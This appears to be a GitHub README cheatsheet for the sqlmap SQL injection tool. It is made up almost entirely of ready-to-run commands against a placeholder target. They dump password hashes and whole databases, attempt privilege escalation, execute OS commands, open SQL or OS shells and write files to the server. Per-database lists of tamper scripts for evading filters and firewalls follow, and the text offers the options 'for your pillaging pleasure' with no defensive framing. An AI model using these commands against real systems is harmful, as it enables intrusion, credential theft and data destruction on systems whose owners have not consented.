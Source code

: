 # SQLMapCheatsheet

## Command
- Target the http://target.server.com URL using the “-u” flag:
    ```
    sqlmap -u 'http://target.server.com'
    ```

- Specify POST requests by specifying the “–data” flag:
    ```
    sqlmap -u 'http://target.server.com' --data='param1=blah&param2=blah'
    ```

- Target a vulnerable parameter in an authenticated session by specifying cookies using the “–cookie” flag:
    ```
    sqlmap -u 'http://target.server.com' --cookie='JSESSIONID=09h76qoWC559GH1K7DSQHx'
    ```

- Drop all Set-Cookie requests from the target web server using the “–drop-set-cookie” flag:
    ```
    sqlmap -u 'http://target.server.com' -r req.txt --drop-set-cookie
    ```
- Perform in-depth and risky attacks using the “–level” and “–risk” flags:
    ```
    sqlmap -u 'http://target.server.com' --data='param1=blah' --level=5 --risk=3
    ```
- Specify which POST or GET parameter to target using the “-p” flag:
    ```
    sqlmap -u 'http://target.server.com' --data='param1=blah&param2=blah' -p param1
    ```
- Choose a random User-Agent request header using the “–random-agent” flag:
    ```
    sqlmap -u 'http://target.server.com' -r req.txt --random-agent
    ```
- Target a certain database service using the “–dbms” flag:
    ```
    sqlmap -u 'http://target.server.com' -r req.txt --dbms Oracle
    ```
- Read a request (stored via Burpsuite) target the user parameter (and no other parameters), run risky queries, and dump users and passwords:
    ```
    sqlmap -r ./req.txt -p user --level=1 --risk=3 --passwords
    ```
- Attempt privilege escalation on the target database
    ```
    sqlmap -r ./req.txt --level=1 --risk=3 --privesc
    ```
- Run the “whoami” command on the target server.
    ```
    sqlmap -r ./req.txt --level=1 --risk=3 --os-cmd=whoami
    ```
- Dump everything in the database, but wait one second in-between requests.
    ```
    sqlmap -r ./req.txt --level=1 --risk=3 --dump --delay=1
    ```
- Here are some useful options for your pillaging pleasure:
    ```
    -r req.txt Specify a request stored in a text file, great for saved requests from BurpSuite.
    –force-ssl Force SQLmap to use SSL or TLS for its requests.
    –level=1 only test against the specified parameter, ignore all others.
    –risk=3 Run all exploit attempts, even the dangerous ones (could damage database).
    –delay Set a delay in-between requests, great for throttled connections.
    –proxy Set to http://127.0.0.1:8080 to pipe requests through BurpSuite for inspection.
    –privesc Attempt to elevate the privileges of the database service account.
    –all Enumerate everything inside the target database.
    –hostname Print the target database’s hostname.
    –passwords Find and exfiltrate all users and their password hashes or digests.
    –dbs Enumerate all databases accessible via the target webserver.
    –comments Enumerate all found comments inside the database.
    –sql-shell Return a SQL prompt for interaction.
    –os-cmd Attempt to execute a system command.
    –os-shell Attempt to return a command prompt or terminal for interaction.
    –reg-read Read the specified Windows registry key value.
    –file-write Specify a local file to be written to the target server.
    –file-dest Specify the remote destination to write a file to.
    –technique Specify a letter or letters of BEUSTQ to control the exploit attempts:
        B: Boolean-based blind
        E: Error-based
        U: Union query-based
        S: Stacked queries
        T: Time-based blind
        Q: Inline queries
    ```


## Tamper
- **All scripts**
  ```
   --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
  ```

- **General scripts**
  ```
  --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
  ```

- **Microsoft access**
  ```
  --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
  ```

- **Microsoft SQL Server**
  ```
  --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
  ```

- **MySQL**
  ```
  --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
  ```

- **Oracle**
  ```
  --tamper=between,charencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes,xforwardedfor
  ```

- **PostgreSQL**
  ```
  --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,xforwardedfor
  ```

- **SAP MaxDB**
  ```
  --tamper=ifnull2ifisnull,nonrecursivereplacement,randomcase,securesphere,space2comment,space2plus,unionalltounion,unmagicquotes,xforwardedfor
  ```

- **SQLite**
  ```
  --tamper=ifnull2ifisnull,multiplespaces,nonrecursivereplacement,randomcase,securesphere,space2comment,space2dash,space2plus,unionalltounion,unmagicquotes,xforwardedfor
  ```
